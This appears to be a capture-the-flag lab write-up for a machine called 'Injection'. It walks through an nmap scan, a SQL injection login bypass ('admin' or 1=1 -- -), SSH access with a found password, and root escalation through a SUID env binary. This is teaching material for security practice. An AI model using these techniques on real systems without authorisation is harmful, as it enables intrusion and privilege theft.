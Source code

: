 # Injection

## Port Enumeration

To begin our scan, we use the Nmap tool  during our discovery phase. As we can see, we have the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining the Web Page
We access the web page hosted on the Apache server and find this:

![Descripción de Injection](Imagenes/Injection_1.png)

## Intrusion

We can gain access with a simple SQL injection attack:


```ruby
Login: admin' or 1=1 -- - 
Password: admin
```

Successfully, we access the login panel:
![Descripción de Injection](Imagenes/Injection_2.png)


We observe one user and possibly a password that we can try with the SSH service.

```ruby
ssh dylan@172.17.0.2 
```

We try the password KJSDFG789FGSDF78:

We successfully gain access!

## Privilege Escalation

For privilege escalation, we need to identify which files we can execute with root privileges.

To find these files, we need to execute this command:

```ruby
sudo -l
```
We notice that we can't execute this command because it doesn't exist. So, we can search for binaries with SUID permissions using this command:

```ruby
find / -perm -4000 -user root 2>/dev/null
```

we obtain this results:

```ruby
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/umount
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

If we examine the different results, we find a binary file named "env". We can execute this command to potentially gain root privileges:

```ruby
/usr/bin/env /bin/sh -p
```

Finally, we gain access as the root user.